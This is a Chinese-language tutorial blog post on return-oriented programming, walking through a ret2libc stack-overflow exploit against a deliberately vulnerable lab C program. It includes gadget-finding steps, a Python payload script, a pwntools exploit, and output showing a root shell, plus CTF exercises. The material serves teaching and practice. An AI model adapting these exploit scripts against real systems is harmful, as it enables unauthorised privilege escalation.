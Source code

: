```yaml
---
layout: blog
book: true
title:  "简单的ROP"
background: green
background-image: http://ot1cc1u9t.bkt.clouddn.com/17-7-15/78939382.jpg
date:   2018-08-28 14:43:11
category: 安全
tags:
- ROP 
---
```


- 现代栈溢出利用技术基础:ROP
- 利用signal机制的ROP技术:SROP
- 没有binary怎么办:BROP
- 劫持栈指针:Stack Pivot
- 利用动态链接绕过ASLR:ret2dll resolve、fake linkmap
- 利用地址低12bit绕过ASLR:Partial Overwrite
- 绕过stack canary:改写指针与局部变量、leak canary、overwrite canary
- 溢出位数不够怎么办:覆盖ebp,Partial Overwrite

----

本文例子是一种代码复用技术，通过控制栈调用来劫持控制流
Google关键字:Ret2libc,ROP


## 0x01、实例

```c++
/* Compile: gcc -fno-stack-protector ret2libc.c -o ret2libc      */
/* Disable ASLR: echo 0 > /proc/sys/kernel/randomize_va_space     */

#include <stdio.h>
#include <unistd.h>

int vuln() {
    char buf[80];
    int r;
    r = read(0, buf, 400);
    printf("\nRead %d bytes. buf is %s\n", r, buf);
    puts("No shell for you :(");
    return 0;
}

int main(int argc, char *argv[]) {
    printf("Try to exec /bin/sh");
    vuln();
    return 0;
}   
```

编译后，进行下列步骤：

1.安装[gdb-peda](https://github.com/longld/peda)，然后gdb ./ret2libc->start->find "/bin/sh"，得到地址0x7ffff7b91543；

2.继续，使用p system，找到system函数的地址0x7ffff7a57590；

3.安装[ropper](https://github.com/sashs/Ropper)，然后使用ropper --file ./ret2libc --search "% ?di"，找到pop %rdi; ret;的地址0x00000000004006a3。


注意，因为我们是64位机器，默认使用的是寄存器rdi等传递参数，所以，我们需要使用rop技术，先将栈上的参数pop到寄存器rdi中，再调用system()函数。

接着，使用这三个地址，构造payload：
```python
#!/usr/bin/env python

from struct import *

buf = ""
buf += 'A'*104                          # junk
buf += pack("<Q", 0x00000000004006a3)       # pop rdi; ret;
buf += pack("<Q", 0x7ffff7b91543)       # pointer to "/bin/sh" gets popped into rdi
buf += pack("<Q", 0x7ffff7a57590)       # address of system()
#print buf
f = open("in.txt", "w")
f.write(buf)
```

执行该脚本，生成payload文件in.txt。

给./ret2libc添加权限:

```
sudo chown root ./ret2libc
sudo chmod 4755 ./ret2libc
```

执行：
```
➜  Desktop (cat in.txt ; cat) | ./ret2libc
Try to exec /bin/sh
Read 128 bytes. buf is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
No shell for you :(
whoami
root
```

成功获得root shell。

![Shell](https://raw.githubusercontent.com/catsay217994/catsay217994.github.io/master/_posts/security_image/rop.png "ROP")

或者使用pwn

```python
from pwn import *
from struct import *
p = process("./ret2libc")

buf = ""
buf += 'A' * 104
buf += pack('<Q',0x00000000004006a3)
buf += pack('<Q',0x7ffff7b91543)
buf += pack('<Q',0x7ffff7a57590)

p.sendline(buf)
p.recvuntil(":(\n")
p.interactive()

```



## CTF中ROP常规套路:

- 第一次触发漏洞，通过ROP泄露libc的address(如puts_got),计算system地址,然后返回到一个可以重现触发漏洞的位置(如main),再次触发漏洞
通过ROP调用system("/bin/sh")
- 直接execve("/bin/sh",["/bin/sh"],NULL),通常在静态链接时比较常用

## 习题
- Defcon 2015 Qualifier:R0pbaby
- AliCTF 2016:vss
- PlaidCTF 2013:ropasaurusrex
	
## 作业:
- 根据R0pbaby的writeup重写exploit
- 尝试做vss和ropasaurusrex
	
